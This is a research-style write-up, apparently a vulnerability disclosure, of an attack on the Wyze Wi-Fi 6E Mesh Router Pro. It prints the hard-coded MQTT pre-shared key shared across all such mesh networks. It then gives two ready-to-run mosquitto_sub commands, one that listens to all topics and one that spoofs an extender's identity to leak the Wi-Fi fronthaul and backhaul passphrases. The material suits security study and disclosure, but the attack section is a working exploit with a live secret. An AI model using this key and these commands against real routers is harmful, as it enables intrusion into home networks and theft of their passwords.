 # Wyze Mesh Network Attack
## Intro
In this write-up, we use Wyze Wi-Fi 6E Mesh Router Pro, firmware version 1.0.1.109 as an illustration example. 

Wyze uses MQTT with TLS as its NAPS protocol. The gateway node opens TCP port 1883 for this purpose. 

However, all Wyze mesh networks share a common key for these MQTT connections, which is a type of vulnerability called "missing cross-layer trust".

To perform the Wi-Fi passphrase stealing attack, we first search the Wyze firmware and find the MQTT PSK to be:
```
72262d702857592b7a5d2925474c5f4b466d2d7875632e5d2155717a7b784052656d527a284a3e4b71597a645b2b2f533c292921465748213e7754756e71262c
```

The `psk-identity` of this PSK is `LO_MESH6`. How to find this key within the firmware is left as an exercise. 

Thus, an attacker can directly dial encrypted connections to a gateway's port 1883 to read Wi-Fi fronthaul/backhaul passphrases. 

## Attack Step 1: Subscribe and listen to all topics of the MQTT channel 

Install `mosquitto_sub` and run the following command: 

```
mosquitto_sub -h 192.168.50.1 -p 1883 --psk-identity LO_MESH6 --psk 72262d702857592b7a5d2925474c5f4b466d2d7875632e5d2155717a7b784052656d527a284a3e4b71597a645b2b2f533c292921465748213e7754756e71262c -t '#' -d
```

You will start to see some non-critical control data:
![](./non_critical_control_data.png)

Then, you can see the identity `LO_MESH6E_7C78B2E999C0`. This is the extender's MQTT identity. 

We see only non-critical data here. For example, Wi-Fi fronthaul/backhaul passphrases are not shown. In the next step, we will manually trigger a contention/race condition by spoofing `LO_MESH6E_7C78B2E999C0`. In this way, the extender node will try to reinitiate MQTT connections and pull network access policies from the gateway node. 

## Attack Step 2: Spoof the extender identity with another MQTT connection, and read Wi-Fi fronthaul/backhaul passphrases.
Keep the first connection on and use another terminal window to open another MQTT connection and spoof the extender identity: 

```
mosquitto_sub -h 192.168.50.1 -p 1883 --psk-identity LO_MESH6 --psk 72262d702857592b7a5d2925474c5f4b466d2d7875632e5d2155717a7b784052656d527a284a3e4b71597a645b2b2f533c292921465748213e7754756e71262c -i LO_MESH6E_7C78B2E999C0 -t 'liteon/device/LO_MESH6E_7C78B2E999C0/#' -d
```

You will immediately see critical control data showing up in the first connection:

![](./critical_data.png)

You can see Wi-Fi fronthaul/backhaul passphrases there. 

